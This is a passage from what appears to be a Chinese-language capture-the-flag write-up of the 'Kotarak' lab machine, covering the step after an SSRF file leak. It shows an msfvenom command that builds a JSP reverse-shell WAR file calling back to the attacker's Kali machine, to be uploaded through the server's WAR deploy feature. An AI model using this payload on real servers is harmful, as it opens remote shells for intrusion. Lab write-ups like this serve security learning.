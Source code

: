 ![](https://github.com/Whale3070/whale3070.github.io/blob/master/_pictures/kotarak.resource/6.PNG)
## 获取shell
刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。

![](https://github.com/Whale3070/whale3070.github.io/blob/master/_pictures/kotarak.resource/7.PNG)
用msfvenom生成一个payload，接下来要将它上传到目标机上运行。
因为主页面上有上传功能，提示：
```
deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
```
暗示了我们可以上传一个war类型的反弹shell。
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=kali的ip LPORT=80 -f war > ippsec.war

